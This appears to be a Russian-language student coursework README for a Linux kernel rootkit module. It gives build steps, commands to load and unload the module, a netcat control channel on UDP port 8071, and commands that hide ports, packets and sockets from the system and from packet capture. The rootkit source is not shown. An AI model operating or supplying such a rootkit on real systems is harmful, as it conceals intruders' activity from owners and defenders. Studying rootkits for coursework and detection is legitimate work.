 # Курсач по ОС, на тему: "Модуль ядра rootkit."
Компилим, не выёживаемся, сдаём :)
## Linux 
Качаем нужную версию, на всякий х32 оставлю, но работать не должно (вроде).
| Kernel / arch |         x86         |        x86-64        |
|:-------------:|:-------------------:|:--------------------:|
|     4.4.0     | Ubuntu 16.04 i386 (647M) [[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-i386.iso.torrent) [[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-i386.iso) |  Ubuntu 16.04 amd64 (655M) [[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso.torrent) [[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso) |

### Далее на всякий:
```sh
sudo apt-get update
sudo apt install linux-headers-$(uname -r)
```
### Building

```sh
make
```

## Use

Load rootkit:

```sh
make load
```
Unload rootkit:

```sh
make unload
```
**Launch**
```sh
nc -4 -u localhost 8071
```
8071 задан как порт по умолчанию, при сильном желании, его можно сменить, на строчке 28 `UDP_PORT`, в файле `include.h`.

Остальное вроде всё нативно. Также есть функции, которые не вошли в РПЗ (по итогу не показал): 
- Скрытие портов (*usage* `hideport-12345` | `showport-12345`)
- Скрытие пакетов (можно чекнуть WireShark'ом)
```sh
hidepacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
hidepacket-tcp6-::1
--------------------
showpacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
showpacket-tcp6-::1
```
- Скрытие сокетов 
```sh
hidesocket-udp4-12345
hidesocket-udp6-12346
hidesocket-tcp4-12347
hidesocket-tcp6-12348
---------------------
showsocket-udp4-12345
showsocket-udp6-12346
showsocket-tcp4-12347
showsocket-tcp6-12348

```
